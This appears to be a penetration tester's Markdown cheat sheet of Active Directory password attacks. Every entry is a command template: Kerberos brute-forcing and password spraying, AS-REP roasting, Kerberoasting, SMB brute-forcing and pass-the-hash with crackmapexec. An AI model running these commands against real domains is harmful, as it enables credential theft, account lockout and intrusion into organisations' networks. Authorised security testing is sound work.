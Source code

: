 # Passwords
## Kerberos
Brute force - WILL LOCKOUT USER:
`kerbrute bruteuser --dc <IP> -d <DOMAIN> <PASSLIST> <USER>`

Check password for userlist:
`kerbrute passwordspray --dc <IP> -d <DOMAIN> -v <USERLIST> <PASS>`

AS-REP (AS-REP Roasting):
`impacket-GetNPUsers -dc-ip <IP> <DOMAIN>/ -usersfile <USERLIST>` 
`impacket-GetNPUsers -dc-ip <IP> <DOMAIN>/<USER>:<PASS> -request` (creds)
`crackmapexec ldap <IP> --kdcHost <IP> -u <USER> -p <PASS> --asreproast <OUTPUT>` (creds)

TGS-REP (Kerberoasting):
`impacket-GetUserSPNs -dc-ip <IP> <DOMAIN>/<USER>:<PASS> -request` (creds)
`crackmapexec ldap <IP> --kdcHost <IP> -u <USER> -p <PASS> --kerberoasting <OUTPUT>` (creds)

## NetBIOS & SMB
Brute force passwords - WILL LOCKOUT USER:
`crackmapexec smb <IP> -u <USER> -p <PASSLIST>`
`crackmapexec smb <IP> -u <USER> -H <HASHES>`

Check password for users in list:
`crackmapexec smb <IP> -u <USERLIST> -p <PASS>`

Change password user:
`smbpasswd -U <USER> -r <DC_IP>`